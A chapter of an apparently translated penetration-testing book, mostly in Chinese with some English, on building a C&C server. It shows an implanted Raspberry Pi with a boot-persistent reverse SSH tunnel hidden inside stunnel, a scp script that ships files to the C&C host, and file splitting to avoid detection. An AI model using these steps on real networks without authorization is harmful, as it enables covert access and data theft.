








## 3

## 设置和维护命令与控制服务器

在过去两天尽可能多地收集情报之后，现在是开始思考渗透测试本身以及我们将如何执行它的时候了。在第 4 天，我们将开始实际测试或渗透在调查阶段发现的各种系统，但在到达那里之前，还有一些事项需要考虑。首先，我们计划将测试期间获取的任何证据放在哪里？我们不想将其留在服务器上，以防被发现并可能被更改（或在我们报告之前漏洞被修补）。我们可能还需要根据网络中运行测试的设备进行离服务器分析。这就是命令与控制（C&C）服务器发挥作用的地方。

在本章中，我们将讨论在渗透测试演练中使用 C&C 服务器以及它如何发挥关键作用。我们还将深入探讨 C&C 服务器的各种选项。这将使你可以选择将其放置的位置以及它是什么。最后，我们将讨论如何设置、管理和监控该 C&C 服务器，以及如何有效地和安全地使用它。这将包括自动化一些任务以及文件实用工具，以确保我们不被发现。我们将涵盖本章的以下主题：

- C&C 要求
- 设置安全连接
- 内部服务器 SSH 设置
- C&C 服务器 SSH 设置
- 设置反向 SSH 隧道
- Stunnel 救援
- 验证自动化
- 自动化证据收集
- 文件实用工具

C&C 服务器的设置很大程度上取决于渗透测试人员。有些人，像我一样，更喜欢拥有一个集中的 C&C 服务器，并在网络中使用较小的设备来执行测试。其他人可能选择仅使用其更强大的设备进行测试和分析。这真的取决于渗透测试人员的个人风格。以下部分反映了我的个人风格；然而，你应该根据自己的个人喜好务必探索其他方法。

## 命令与控制服务器

命令与控制服务器，或 C&C 服务器，由于其被广泛用于恶意目的，例如投递恶意软件或其他恶意负载，因此具有负面印象。由于同样的原因，它们以负面方式被使用，也可以用正面方式使用。这些 C&C 服务器是完美的方式，可以将你收集的数据或证据传输到异地服务器，以便你进行审查、整理和最终确定。你永远不想留下你在特定系统上的任何证据，甚至不想留下任何文件或发现。这就是 C&C 服务器发挥作用的地方，因为它们可以成为你所有渗透测试证据的单一来源。

你的 C&C 服务器驻留在何处完全由你决定。大多数时候，C&C 服务器驻留在某人的云中。这可能是 AWS、Azure 或你选择的任何其他云服务。然而，它不必是基于云的解决方案。你可以在公司办公室拥有一个服务器，甚至在你的家庭实验室中拥有一个服务器，并在其中建立安全的回传通道。选择权在你。重要的是它需要以下条件：

- 充足的连接性
- 能够远程访问
- 访问本地本地部署设备
- 必须具有成本效益

C&C 服务器可以根据你的喜好位于任何地方。但即使它们可以位于任何地方、是任何东西，仍然需要一些要求，以确保你拥有一个有效的设置，有助于简化你的渗透测试，而不是阻碍它。


Here are some of the requirements that you may need for a penetration-testing C&C server setup:

以下是您可能需要的渗透测试 C&C 服务器设置的某些要求：

- **处理能力：** 它们可能需要用于使用 Wireshark 分析大型捕获、密码破解或任何其他 CPU 密集型程序。您需要确保拥有足够的处理能力以合理的方式执行这些任务。如果破解无线密码需要 30 天，而密码每周都会更改，那么任务就毫无意义了。在选择系统规格时请记住这一点。
- **500 GB+ 的磁盘空间：** 随着渗透测试的继续，证据会不断累积。各种发现，例如您的笔记会很小；然而，屏幕截图和流量捕获会迅速累积。确保您拥有尽可能多的空间；过度配置也不会有坏处。
- **本地现场设备：** 您希望在现场拥有一个本地设备，该设备可远程与您的 C&C 服务器通信。对于此任务，我倾向于选择 Raspberry Pi，因为它体积小且易于隐藏，但仍足够强大，可以运行 Kali 等完整操作系统。由于该设备不需要执行密集处理，因此不需要是全尺寸的笔记本电脑或服务器。它只需要传递数据即可。如果可能，它应具有无线接口，以便拥有额外的连接选项。许多公司都有基于 NAC 的解决方案，会检测有线设备，但在无线方面通常要求不那么严格。此外，根据公司是否知道您在那里有设备，您可能会接入一个非面向互联网的 VLAN 的端口。我更喜欢无线方式，这样我就可以随时连接到访客 SSID 或其他非企业受限 SSID 进行传输。如果可能，它还应具有多个无线接口，以便您可以进行一些无线攻击，以及一个蓝牙接口。
- **本地设备与 C&C 服务器之间的安全通道：** 这通常是一个反向 SSH 隧道。您需要确保它是安全且加密的，这样其他人就无法窃取您的证据并将其用于对您正在工作的公司不利。

## 设置安全连接

It is not only important to ensure that there is connectivity from the local on-premises box to the C&C server; however, it should also be secure. You don’t want to give someone the ability to sniff the traffic and get information that they shouldn’t have. This not only makes you look bad as a penetration tester, but could also cause serious issues for the company you are running the penetration test for.

确保本地现场设备到 C&C 服务器的连接不仅仅重要；它还应该是安全的。您不想让某人能够嗅探流量并获取他们不应该拥有的信息。这不仅会让您作为渗透测试人员显得很糟糕，而且还可能导致您正在为其进行渗透测试的公司出现严重问题。

Your job as a penetration tester is to find weaknesses in the environment. So having these being clearly seen as they pass over the wire is like forgetting to close your safe, where you have all of your most important and valuable items.

作为渗透测试人员的职责是查找环境中的弱点。因此，让这些信息在传输过程中被清晰地看到，就像忘记关闭保险箱一样，里面存放着您最重要的和最有价值的物品。

For my penetration-testing requirements, I will use a reverse SSH tunnel within a stunnel instance. I will show you the steps to set up this secure communication from the C&C server side to the on-premises box, which in my case is the Raspberry Pi. First, we will start inside with the reverse SSH setup, followed by the stunnel setup. But when bringing up the connection, this happens in the opposite order, with the stunnel session getting set up first, followed by the reverse SSH session within that tunnel.

对于我的渗透测试需求，我将在 stunnel 实例中使用反向 SSH 隧道。我将向您展示从 C&C 服务器端到现场设备的这些安全通信的设置步骤，在我的例子中是 Raspberry Pi。首先，我们将从内部开始反向 SSH 设置，然后是 stunnel 设置。但在建立连接时，顺序是相反的，首先建立 stunnel 会话，然后在该隧道内建立反向 SSH 会话。


Since this is an intermediate level book, I will not go into a complete step-by-step setup of some of these tools. I will assume that the base operating system is in place; in this case, it's Kali Linux on the laptop VM as well as the Raspberry Pi.

由于这是一本中级书籍，我不会详细介绍这些工具的完整逐步设置。我假设基础操作系统已经就位；在这种情况下，笔记本 VM 以及 Raspberry Pi 上都是 Kali Linux。

## 内部服务器 SSH 设置

Let's start by working on getting the Raspberry Pi, or whichever inside server you will use to set up the secure reverse SSH tunnel. The process itself is not really that difficult. It just involves setting up SSH since this host will be the one initiating connections back to the C&C server:

让我们开始着手配置 Raspberry Pi，或您将用于设置安全反向 SSH 隧道的任何内部服务器。过程本身并不算太困难。它只是涉及设置 SSH，因为此主机将是发起回 C&C 服务器连接的主机：

- 1. The first thing we do is back up old SSH keys and create new ones. On the Raspberry Pi, these keys are set up by default.
- 1. 我们首先备份旧的 SSH 密钥并创建新的密钥。在 Raspberry Pi 上，这些密钥默认已设置。
- 2. Typically, the Raspberry Pi Kali Linux image allows root login by default. I always verify to prevent unnecessary troubleshooting later.
- 2. 通常，Raspberry Pi Kali Linux 镜像默认允许 root 登录。我总是进行验证以防止以后不必要的故障排除。
- 3. Next, we need to allow SSH to start on reboot. This is a very important task. I have had situations where power was lost to one of the hosts, and SSH was not set to restart on boot. I had to manually console in and update. If the device is not local, it can be a hard lesson to learn.
- 3. 接下来，我们需要允许 SSH 在重启时启动。这是一项非常重要的任务。我曾遇到过主机断电的情况，而 SSH 未设置为启动时重启。我不得不手动登录控制台并进行更新。如果设备不在本地，这可能是一个难以学习的教训。
- 4. Restart SSH, and you are ready to go. I always test it out as well just to make sure. So, try to SSH to the Raspberry Pi or whichever inside box you are using just to verify that everything is working.
- 4. 重启 SSH，您就可以开始了。我也总是测试一下以确保无误。因此，请尝试 SSH 到 Raspberry Pi 或您使用的任何内部设备，以验证一切是否正常工作。

## 命令与控制服务器 SSH 设置

Setup on the command and control host for the SSH is not a complicated process as well and is very similar to our on-premises box. The only real difference is the fact that the Kali image for the Raspberry Pi has some different defaults actions/settings compared to the default Kali image:

命令与控制主机上的 SSH 设置也不是一个复杂的过程，并且与我们的现场设备非常相似。唯一真正的区别是 Raspberry Pi 的 Kali 镜像与默认 Kali 镜像相比具有一些不同的默认操作/设置：

- 1. Similar to the Raspberry Pi setup, we need to copy old keys and create new ones. Unlike the Raspberry Pi, the keys are not shared and should already be unique; however, I like to recreate them just in case (force of habit and a best practice for security):
- 1. 与 Raspberry Pi 设置类似，我们需要复制旧密钥并创建新密钥。与 Raspberry Pi 不同，密钥未共享并且应已唯一；然而，我喜欢重新创建它们以防万一（这是习惯使然，也是安全方面的最佳实践）：



- 2. The default image of Kali Linux does not allow root login by default. You need to navigate to the /etc/ssh/ directory and edit the sshd_config file with your editor of choice. Find the line that says PermitRootLogin and change the response from no to yes. Save the file:
- 2. Kali Linux 的默认镜像默认不允许 root 登录。您需要导航到 /etc/ssh/ 目录并使用您选择的编辑器编辑 sshd_config 文件。找到写着 PermitRootLogin 的行，并将响应从 no 改为 yes。保存文件：



- 3. Next, we will set SSH to start up on boot. It will not perform this by default. To accomplish this, we will run the following command:
- 3. 接下来，我们将设置 SSH 在启动时启动。它默认不会执行此操作。为此，我们将运行以下命令：

```
update-rc.d -f ssh enable 2 3 4 5
```

- 4. Restart the SSH service and try a test SSH session to verify that everything is working correctly:
- 4. 重启 SSH 服务并尝试测试 SSH 会话以验证一切是否正常工作：



## 设置反向 SSH 隧道

Now that SSH is working on both hosts, we need to set up the reverse SSH tunnel. Taking a look at the following figure showing a simplified topology, there is a pretty big problem here that justifies why we need to set up a reverse SSH tunnel:

现在 SSH 在两个主机上都已正常工作，我们需要设置反向 SSH 隧道。查看以下显示简化拓扑的图，这里有一个相当大的问题，这正好说明了为什么我们需要设置反向 SSH 隧道：



Do you see it? Well, in case you don't, the issue is that our internal Raspberry Pi server is not reachable externally, since the corporate firewall is blocking it. There are no inbound rules or NAT polices in place to handle this sort of connection. So I have no issues connecting to the C&C server; however I will need to have the C&C server connecting back to the Raspberry Pi. So, how do we do this? Well, this is where a reverse SSH tunnel comes in.

看到了吗？好吧，以防您没看到，问题是我们的内部 Raspberry Pi 服务器无法从外部访问，因为企业防火墙正在阻止它。没有入站规则或 NAT 策略来处理这种连接。因此我连接到 C&C 服务器没有任何问题；然而我需要让 C&C 服务器连接回 Raspberry Pi。那么，我们如何做到这一点呢？好吧，这就是反向 SSH 隧道发挥作用的地方。

What a reverse SSH tunnel allows us to do is have a persistent tunnel setup initiated from the inside host to the C&C server with the -R flag as well as a predefined port. Because of this flag, when you SSH on the C&C server to itself on this predefined port, you will piggyback off of that already established tunnel.

反向 SSH 隧道允许我们使用 -R 标志以及预定义端口从内部主机到 C&C 服务器建立持久隧道。由于此标志，当您在 C&C 服务器上通过此预定义端口 SSH 到自身时，您将利用该已建立的隧道。

In the following figure, you can see how the reverse SSH tunnel works to solve our issue:

在下图中，您可以看到反向 SSH 隧道如何解决我们的问题：



Based on the preceding figure, here is my configuration for setting up the reverse SSH tunnel:

根据前面的图示，以下是我的反向 SSH 隧道设置配置：

- 1. On the Raspberry Pi (my internal box), connect to the outside C&C server with the -R flag as well as the port you plan to use as the redirection port:
- 1. 在 Raspberry Pi（我的内部设备）上，使用 -R 标志以及您计划用作重定向端口的端口连接到外部 C&C 服务器：

```
ssh -R 8022:localhost:22 mycancserver.mydomain.com
```

- 2. Now, to reference this tunnel on the C&C server, you will just run this command and will be seamlessly connected to your internal server without any firewalls or NAT rules added.
- 2. 现在，要在 C&C 服务器上引用此隧道，您只需运行此命令，即可在不添加任何防火墙或 NAT 规则的情况下无缝连接到您的内部服务器。

```
ssh -p 8022 localhost
```

Everything works as tested, great! However, we are not quite done yet. There is one more catch. What happens if your Raspberry Pi reboots? You will have to console back in and reconnect that tunnel to your C&C server. To prevent this problem from occurring, you will need to automate tunnel creation on startup. The one issue with automating the preceding commands is that the session is typically interactive and needs a password input. To overcome this, you will use a key-based authentication setup:

一切按测试运行，太好了！然而，我们还没有完全完成。还有一个问题。如果您的 Raspberry Pi 重启会怎样？您将不得不重新登录控制台并重新连接到 C&C 服务器的隧道。为防止此问题发生，您需要在启动时自动创建隧道。自动执行上述命令的一个问题是会话通常是交互式的，需要输入密码。为克服这一点，您将使用基于密钥的身份验证设置：

- 1. Generate a key pair on the inside server or the server that will be initiating the SSH session. Make sure that you generate the key as the user you plan to log in as:
- 1. 在内部服务器或将发起 SSH 会话的服务器上生成密钥对。确保您以计划登录的用户身份生成密钥：

```
root@pi:~# ssh-keygen -t rsa -b 4096
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Created directory '/root/.ssh'.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:xiEe4YzdoGt8Rwnd6FVK pNF4xagQ2FrRBdwvEk/FoLA root@pi
The key's randomart image is:
+---[RSA 4096]----+
|    o*=..+0o    |
|   .*+B+.=**    |
|  ooE.+ =.+. .  |
|  .+ =000+.0    |
|  + + S.o.+     |
|   . o . .      |
|      .         |
|               |
|               |
+----[SHA256]----+
```

- 2. 登录 C&C 服务器，并导航到主目录的根目录。如果不存在则创建 .ssh 目录。
- 3. 在此 .ssh 目录中，将刚刚从内部服务器创建的 id_rsa.pub 文件复制到 C&C 服务器上的 .ssh 目录。
- 4. 完成之后，是时候测试了。登录你的内部服务器，在我的例子中是 Raspberry Pi。现在，ssh 到你的 C&C 服务器。第一次时你应该会被询问是否继续以接受密钥。选择 yes 后，你应该能够在不提示密码的情况下登录。注销并再次尝试 SSH 会话。你应该能够在没有任何输入的情况下直接进入 C&C 服务器：

```
root@kali:~# cd .ssh/
root@kali:~/.ssh# scp root@pi-kali:/root/.ssh/id_rsa.pub authorized_keys
The authenticity of host 'pi-kali (192.168.33.123)' can't be established.
ECDSA key fingerprint is SHA256:CQN3/+t/1Jtq4+E0W7WS5YLQAspDXQXewFqLFv6IKIA.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'pi-kali' (ECDSA) to the list of known hosts.
root@pi-kali's password:
id_rsa.pub
root@kali:~/.ssh# ls
authorized_keys  known_hosts
```

现在我们已经在没有任何输入的情况下建立并运行了 `ssh` 隧道，我们想要将所有这些流量隐藏在 TLS 隧道内。很多安全设备可能会过滤 SSH 外发流量或引发额外警报。幸运的是，SSL/TLS 通常可以通过防火墙，因此让流量通过 SSL/TLS 隧道传输将是一个额外的好处。幸运的是，stunnel 是一个非常适合此用途的实用工具。现在，让我演示如何在将所有内容整合之前设置 stunnel 并使其正常工作。但在进入 stunnel 之前，我们必须确保我们的 ssh 连接会在启动时启动，以便我们随时可以进行反向 ssh：

- 1. 首先，让我们导航到 `if-up.d` 目录。我将在该目录中创建一个在启动时执行的 文件。我将此文件命名为 `outbound-ssh`，并确保使用 `-x` 标志使其可执行。最后，我将编辑该文件。在我的例子中，我将使用 `vi`：
- 2. 然后，我只需要在文件中创建将要执行的脚本：
- 3. 关于如何让此脚本在启动时运行有很多选择。我将命令插入到 `/etc/rc.local` 中，以便在启动时启动。我直接按原样调用脚本：

/root/outbound-ssh

```
root@pi-kali:~# cd /etc/network/if-up.d/
root@pi-kali:/etc/network/if-up.d# touch outbound-ssh
root@pi-kali:/etc/network/if-up.d# chmod +x outbound-ssh
root@pi-kali:/etc/network/if-up.d# vi outbound-ssh
```

```
#!/bin/sh

su -c "/usr/bin/ssh -p 8888 -f -N -R 8022:127.0.0.1:22 localhost"
```

## stunnel 救援

基本上，stunnel 是一个提供基于 SSL/TLS 的隧道的应用程序/实用工具。它允许我们指定想要通过这些基于 SSL/TLS 的隧道传输的流量。这正是我们需要的完美解决方案。stunnel 需要在双方进行设置才能工作，因此让我向你展示如何配置 stunnel 隧道的双方。

设置 stunnel 第一次可能有点复杂，因为涉及端口和 IP 的混合。你可能需要画出示意图，以确保端口和 IP 位于正确的位置。让我从 C&C 服务器开始，它将作为我们的 stunnel 服务器。我假设 stunnel 已经安装，只是尚未配置。

- 1. 首先，我需要为客户端和服务器之间的加密设置证书。我们将使用 `openssl` 生成证书，然后将它们合并为单个 `.PEM` 文件：

```
root@kali:~# openssl genrsa 2048 > /etc/stunnel/stunnel.key
Generating RSA private key, 2048 bit long modulus
............................................................................
............................................................................
+++
e is 65537 (0x10001)
root@kali:~# openssl req -new -key /etc/stunnel/stunnel.key -x509 -days 200 -out /etc/stunnel/stunnel.crt
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:PA
Locality Name (eg, city) []:Pittsburgh
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Pentest Services
Organizational Unit Name (eg, section) []:IT
Common Name (e.g. server FQDN or YOUR name) []:CCserver
Email Address []:test@pentest.com
root@kali:~# cat /etc/stunnel/stunnel.crt /etc/stunnel/stunnel.key > /etc/stunnel/stunnel.pem
```
2. 接下来，我们将确保启用 stunnel：



3. 配置 stunnel 配置文件可能是整个步骤中最困难的任务。我们不需要在其中放入太多配置；然而，我们放入的内容是一些最低要求。

4. 在配置文件中，我需要确保 stunnel 知道这是服务器而不是客户端。这可以通过以下参数实现：

```
client = no
```

5. 我还需要让 stunnel 知道证书位于 cert 参数中的位置：

```
cert = /PATH/TO/CERT
```

6. 告诉 stunnel 监听哪个服务器和端口非常重要。这需要使用 Accept 参数设置。在我的例子中，这将是端口 443 以及我们计划使用的接口的 IP 地址：

```
Accept = 192.168.33.27:443
```

7. 最后，使用 Connect 参数将告诉 stunnel 将流量发送到何处：

```
Connect = 127.0.0.1:22
```

```
root@kali:/etc/stunnel# cat stunnel.conf
debug = debug
output = /var/log/stunnel.log
[ssh]
accept = 192.168.33.27:443
connect = 127.0.0.1:22
cert = /etc/stunnel/stunnel.pem
```

这就是在服务器端需要执行的所有配置。一旦客户端设置完成，我们就可以测试整个过程。确保在 C&C 服务器上重启 stunnel 服务以应用新设置：

```
service stunnel4 restart
```

如果你在 C&C 服务器或 Raspberry Pi 上运行防火墙软件，你需要确保为 stunnel 和反向 SSH 隧道在防火墙上打开了正确的防火墙端口。

## 客户端 stunnel 设置 – Raspberry Pi

设置 stunnel 隧道的客户端非常容易。最困难的部分再次是理解要在 Accept 和 Connect 参数中放入什么内容。同样，我假设 stunnel 包已经在 Raspberry Pi 上安装。

- 1. 将 `stunnel.pem` 文件从 C&C 服务器复制到 Raspberry Pi。
- 2. 编辑 `stunnel.conf` 文件以反映 accept 和 connect IP/端口信息，并让 stunnel 知道这是一个客户端。该文件应位于 `/etc/stunnel/stunnel.conf`。你需要确保将 client 设置为 yes，因为 Pi 将作为客户端运行。accept 将是你用来建立隧道的本地主机端口；在这种情况下，这是我在启动脚本中指定的 ssh 会话。connect 将是 stunnel 隧道另一端的端口 443，因为我们使用 SSL 隧道来隐藏此 ssh 流量：

```
root@pi-kali:~# cat /etc/stunnel/stunnel.conf
[ssh]
cert = /etc/stunnel/stunnel.pem
client = yes
accept = 127.0.0.1:8888
connect = 192.168.33.27:443
```


3. 在 Raspberry Pi 上重启 stunnel。这将确保刚刚所做的更新生效：

```
service stunnel4 restart
```

4. 现在，我们只需要确保 stunnel 在启动时也能启动：



现在，一切应该都已设置并运行。然而，我们需要测试以确保在 Raspberry Pi 重启后所有这些能自动重新设置，因为它将被放置在你进行渗透测试的环境中，你很可能无法访问它。

## 验证自动化

验证一切按计划工作对于渗透测试的成功至关重要。我测试的方式是重启 Raspberry Pi，或你的内部服务器，以模拟组织内的断电。

为确保一切按计划工作，我在 C&C 服务器上启动 tcpdump。该 tcpdump 将查找通过 stunnel 隧道传输的 SSL 流量：

```
tcpdump host 192.168.33.123
```


我使用的主机 IP 是内部服务器的 IP 地址。根据该主机是否执行其他任务，你可能需要稍微细化过滤器。

现在，是时候重启 Raspberry Pi 并确保一切正常。由于你已运行 tcpdump，在重启后大约一分钟左右，你应该会看到一些流量命中过滤器，因为 Raspberry Pi 启动速度相当快。如果成功，你应该会看到以下屏幕：



如果你没有看到任何流量命中过滤器，一切可能还没有完全丢失。最终的验证是，你可以从 C&C 服务器通过 stunnel 隧道反向访问内部 Pi。在 C&C 服务器上，我将运行以下 ssh 命令来使用此反向隧道：

```
ssh -p 8022 localhost
```

如果一切按计划工作，你应该会看到 Raspberry Pi 的登录提示。

## 自动化证据收集

在渗透测试中，你最后想要做的事情就是使通过新建立的 stunnel 隧道传输数据变得困难。因此，拥有一个可以运行并按需复制文件的工具至关重要。在我的情况下，我倾向于使用一个脚本，将文件发送到我的 C&C 服务器上的正确目录。我们可以在需要移动证据时随时运行此脚本。

我在 Raspberry Pi 和 C&C 服务器上的默认设置如下。随意更改目录以适应你的需求：

- 1. 在内部服务器（Raspberry Pi）上，在 /var 中创建 evidence 文件夹，并在该目录内创建一个名为 LOG 的文件。确保日志文件可写：
- 2. 现在证据目录已准备就绪，我们只需要创建脚本。我将脚本放在 Raspberry Pi 上的 /root/scripts 中。创建脚本后，请确保使其可执行：

```
root@pi-kali:~# cd /var
root@pi-kali:/var# mkdir evidence
root@pi-kali:/var# touch evidence/LOG
root@pi-kali:/var# chmod +w evidence/LOG
root@pi-kali:/var# ls -al evidence/
total 8
drwxr-xr-x 2 root root 4096 Jan 22 20:19 .
drwxr-xr-x 14 root root 4096 Jan 22 20:19 ..
-rw-r--r-- 1 root root 0 Jan 22 20:19 LOG
```

```
root@pi-kali:/var/log# cat /root/scripts/transfer.sh
#!/bin/sh

#
### Generate File name based on timestamp
#
TIMESTAMP=$(date '+%Y%m%d%H%M%S');
LOGFILE="$TIMESTAMP-$1.log";

#
### Copy file over to the evidence server
#
/usr/bin/scp $1 root@CCserver:/evidence/$LOGFILE

#
### Move file into evidence folder with backup extension
#
/bin/mv $1 /var/evidence/$LOGFILE-bkup

#
### Write file transfer to Log file
#
/bin/echo "Wrote $LOGFILE to C&C Server" >> /var/evidence/LOG

#
### Exit file
#
exit 0;
```

3. 此时内部服务器（Raspberry Pi）已全部设置好。然后我转到 C&C 服务器也在那里设置目录结构。我在 / 中创建了一个 evidence 目录。这样我就有一个集中目录存放所有证据：

```
root@kali:~# mkdir /evidence
root@kali:~# ls -al / | grep evidence
drwxr-xr-x  2 root root 4096 Jan 18 16:15 evidence
```

4. 要使用脚本，我进入内部服务器上包含要发送到 C&C 服务器的证据的目录。我对该文件运行脚本。然后我应该在 C&C 服务器的该目录中看到该文件，以及 LOG 文件中的条目。以下截图显示了脚本对一些日志文件的使用：

```
root@pi-kali:/var/log# /root/scripts/transfer.sh kern.log
kern.log
root@pi-kali:/var/log# /root/scripts/transfer.sh user.log
user.log
root@pi-kali:/var/log# /root/scripts/transfer.sh dpkg.log
dpkg.log
```

这是 LOG 文件中的条目。你可以看到每次传输都被记录到文件中以供审计：

```
root@pi-kali:/var/log# /root/scripts/transfer.sh lastlog
lastlog
root@pi-kali:/var/log# cat /var/evidence/LOG
Wrote 20170123005750-syslog.1.log to C&C Server
Wrote 20170123005827-kern.log.log to C&C Server
Wrote 20170123005850-user.log.log to C&C Server
Wrote 20170123005904-dpkg.log.log to C&C Server
Wrote 20170123010130-bootstrap.log.log to C&C Server
Wrote 20170123010135-alternatives.log.log to C&C Server
Wrote 20170123010141-daemon.log.log to C&C Server
Wrote 20170123010146-lastlog.log to C&C Server
```

最后，你可以看到文件已在 C&C 服务器上：

```
drwxr-xr-x  2 root root  4096 Jan 18 16:11 .
drwxr-xr-x 23 root root  4096 Jan 18 13:55 ..
-rw-r----- 1 root root 1309099 Jan 18 16:04 20170123005750-syslog.1.log
-rw-r----- 1 root root  0 Jan 18 16:05 20170123005827-kern.log.log
-rw-r----- 1 root root  0 Jan 18 16:05 20170123005850-user.log.log
-rw-r----- 1 root root 1243167 Jan 18 16:05 20170123005904-dpkg.log.log
-rw-r----- 1 root root  53782 Jan 18 16:08 20170123010130-bootstrap.log.log
-rw-r----- 1 root root  81640 Jan 18 16:08 20170123010135-alternatives.log.log
-rw-r----- 1 root root  92286 Jan 18 16:08 20170123010141-daemon.log.log
-rw-r----- 1 root root  36792 Jan 18 16:08 20170123010146-lastlog.log
```

## 文件实用工具

有一些很棒的文件实用工具可以确保文件尽可能压缩。我倾向于依赖能够压缩的文件实用工具；如果压缩没有帮助，那么它们应该能够将文件拆分为更易管理的部分。这些实用工具包括 tar、Zip/Unzip 和 Split。

## 使用 tar

tar 是大多数 Linux 发行版默认安装的最有用的工具之一。tar 具有强大的功能；然而，由于可以使用大量开关，它的学习曲线可能有点陡峭。

要使用 tar 压缩文件，我倾向于使用以下命令：

```
tar -zcvf <newfilename.tar.gz> <filetobcompressed>
```

-z 将使用 gzip 进一步压缩生成的 tar 文件。-v 打开详细模式，以便我可以看到正在发生的事情。-c 标志将压缩文件，最后 -f 开关会通知 tar 我将指定要压缩的文件。以下是使用 tar 压缩的工作示例：

```
JABELTRA-M-V0B5:~ jabeltra$ tar -zcvf system.log.tar.gz system.log
a system.log
```

要解压缩文件，设置非常相似，只需更改一个开关。以下是解压缩 zip 文件时我使用的语法：

```
tar -xvf <compressed file>
```

这里唯一的区别是使用 -x，这会让 tar 知道文件将被提取。以下是 tar 用于解压缩或提取文件的示例截图：

```
JABELTRA-M-V0B5:~ jabeltra$ tar -xvf system.log.tar.gz
x ./._system.log
x system.log
```

## Split 实用工具

Split 是一个非常方便的实用工具，可在将文件传输到我们的 C&C 服务器之前将其拆分为更易管理的块。这将使我们在带宽和在线时间方面更高效，并尽可能不被察觉。有人注意到持续的 1 MBps 与持续的 10 MBps 峰值的情况不太可能。

split 实用工具非常易于使用。要使用此命令，你输入 split 命令，后跟每个文件的大小、要拆分的文件以及拆分文件的最终名称：

```
